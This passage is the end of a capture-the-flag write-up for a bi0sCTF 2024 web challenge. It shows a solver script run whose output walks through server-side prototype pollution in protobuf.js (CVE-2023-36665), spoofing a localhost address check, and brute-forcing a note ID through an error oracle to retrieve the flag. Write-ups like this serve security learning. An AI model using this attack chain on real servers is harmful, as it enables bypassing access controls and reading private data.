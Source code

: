 ```python

    solver.solve()
```

```shell
┌[siunam♥Mercury]-(~/ctf/bi0sCTF-2024/Web-Exploitation/required-notes)-[2024.02.26|15:38:50(HKT)]
└> python3 solve.py -b https://ch15340143281.ch.eng.run
[*] Injecting the Prototype Pollution payload into the message type `Note`...
[+] The Prototype Pollution payload has been injected into the message type `Note`!
[*] Polluting `_peername`'s attribute `address` into "127.0.0.1"...
[+] `_peername`'s attribute `address` has been polluted!
[*] Brute forcing the flag's note ID...
[*] Brute forcing character "v" | Current leaked flag note ID: jg5hqydgji6zqxj
[+] The flag's note ID has been brute forced! Note ID: jg5hqydgji6zqxjv
[+] The flag note has been viewed! Here's the flag: bi0sctf{w5m5GLtb1aISx8s9xhL8vw==}
```

> Note: If you previously polluted `_peername`'s attribute `address`, you'll need to clean the attribute `address`. Or maybe you can spawn a new remote instance.

## Conclusion

What we've learned:

1. Server-Side Prototype Pollution in protobuf.js (CVE-2023-36665)
2. Brute forcing with error-based oracle